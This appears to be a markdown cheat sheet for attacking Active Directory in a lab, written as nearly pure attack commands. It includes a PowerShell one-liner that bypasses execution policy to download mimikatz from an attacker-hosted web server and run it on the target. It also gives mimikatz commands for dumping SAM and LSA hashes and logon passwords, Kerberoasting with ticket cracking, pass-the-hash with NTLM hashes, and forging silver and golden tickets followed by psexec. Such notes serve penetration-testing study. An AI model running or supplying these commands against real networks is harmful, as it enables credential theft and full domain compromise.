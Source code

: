 # Attacking Active Directory
## Lab Environment
|Server|IP Address|OS|Function|
|---|---|---|---|
|dc.lab.vx|192.168.17.141|Windows Server 2016|Domain Controller|
|svr.lab.vx|192.168.17.151|Windows Server 2016|Domain Member Server, SQL Server|
|client.lab.vx|192.168.17.161|Windows 10 1607|Domain Member Workstation, SQL Server Management Studio|

# Cached Credential Storage and Retrieval
**On Kali**: Setup web server to host `mimikatz`
```console
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
sudo python3 -m http.server 80 &> /dev/null &
```
**On Target**: Download and run `mimikatz`
- Download: `(New-Object System.Net.WebClient).DownloadFile()`
- Run: `Start-Process`
```console
powershell.exe -nop -Exec Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://kali.vx/mimikatz.exe', $env:APPDATA + '\mimikatz.exe'); Start-Process $env:APPDATA\mimikatz.exe
```
**On Target**: mimikatz commands
- Ref: <https://tools.thehacker.recipes/mimikatz>

|Command|Function|
|---|---|
|`privilege::debug`|Requests the debug privilege `SeDebugPrivilege`; required to debug and adjust the memory of a process owned by another account|
|`token::elevate`|Impersonates a SYSTEM token (default) or domain admin token (using `/domainadmin`)|
|`lsadump::sam`|Dumps the local Security Account Manager (SAM) NT hashes; operate directly on the target system, or offline with registry hives backups (for SAM and SYSTEM)|
|`lsadump::lsa /patch`|Extracts hashes from memory by asking the LSA server; `/patch` or `/inject` takes place on the fly|
|`sekurlsa::logonpasswords`|Lists all available provider credentials; usually shows recently logged on user and computer credentials|

# Service Account Attack (Kerberoasting)
```console
kerberos::list /export
sudo apt update && sudo apt install kerberoast
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```

# Pass the Hash

## pth-winexe
- Local account
```console
pth-winexe -U administrator%00000000000000000000000000000000:e19ccf75ee54e06b06a5907af13cef42 //192.168.17.151 cmd
```
- Domain account
```console
pth-winexe -U LAB/domainadmin%00000000000000000000000000000000:e19ccf75ee54e06b06a5907af13cef42 //192.168.17.151 cmd
```
## mimikatz - sekurlsa::pth
- Local account
```console
sekurlsa::pth /user:administrator /domain:* /ntlm:e19ccf75ee54e06b06a5907af13cef42 /run:powershell.exe
```
- Domain account
```console
sekurlsa::pth /user:domainadmin /domain:lab.vx /ntlm:e19ccf75ee54e06b06a5907af13cef42 /run:powershell.exe
```

# Silver Ticket
```console
kerberos::purge
kerberos::list
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
kerberos::list
```

# Golden Ticket
```console
lsadump::lsa /patch
kerberos::purge
kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
misc::cmd
psexec.exe \\dc01 cmd.exe
```

